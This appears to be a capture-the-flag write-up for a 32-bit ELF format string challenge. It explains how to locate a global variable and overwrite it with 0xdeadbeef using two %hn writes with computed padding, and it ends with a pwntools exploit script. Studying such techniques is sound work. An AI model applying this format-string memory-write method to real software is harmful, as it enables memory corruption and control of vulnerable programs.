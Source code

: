![description](fms2.PNG)

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 32bit mode.
- like the Format String 1 challenge, this challenge prints the flag only if the target_variable value = 0xdeadbeef
# Exploitation
- we have to chain a payload that overwrites the target_variable
- find the address of target_variable
- find the offset to the the first 4 bytes to overwrite
- write 0xdeadbeef in target_value
## Finding the address of target_variable
target_variable is a global variable, and since it's not initialized , it's in the .bss section.
the address is : 0x0804c034 (same address as the previous challenge)
## Finding Offset
the address is the 4th address in the stack, to reference directly the address, we can use %4$x ( same offset from the previous challenge )

## Writing 0xdeadbeef
the format specifier %n writes how many bytes written so far, so if we want to overwrite the target with 100, we write target_address + "A"*(100-4)

the 4 bytes in ("A"*(100-4)) represents the size of the target_variable since it's counted in the payload.

the problem is that 0xdeadbeef is a very big number, so we can use %hn that write only 2 bytes in the address.

the idea is to write the (address of target) + (address of target + 2 ) + "n bytes" +  %4$hn + "m bytes" +5$hn
%4$hn will write n bytes in the lower two bytes of the target
%5$hn will write m bytes in the higher two bytes of the target

Now, how to calculate n and m ?

we want to write 0xbeef in the lower bytes, so n = 0xbeef - (4 + 4) = 48871

we want to write 0xdead in the higher bytes, so m = 0xdead - 0xbeef = 8126

Again we have another problem, the buffer size is limited to 60 bytes, so we can't write 48871 bytes as an input !!!!
that's where we use the %x format specifier, %px can be used to write p byte (padding)

so our final payload = @target + (@target+2) + %48871x" + "%4$hn" + "%8126x" + "%5$hn"
## Payload
```python
from pwn import *
context.arch = 'i386'
target_variable = 0x0804c034
p = process("./task9")
payload = b""
payload += p32(target_variable)
payload += p32(target_variable+2)
payload += b"%48871x"
payload += b"%4$hn"
payload += b"%8126x"
payload += b"%5$hn" 
#pause()
p.sendline(payload)
p.interactive()
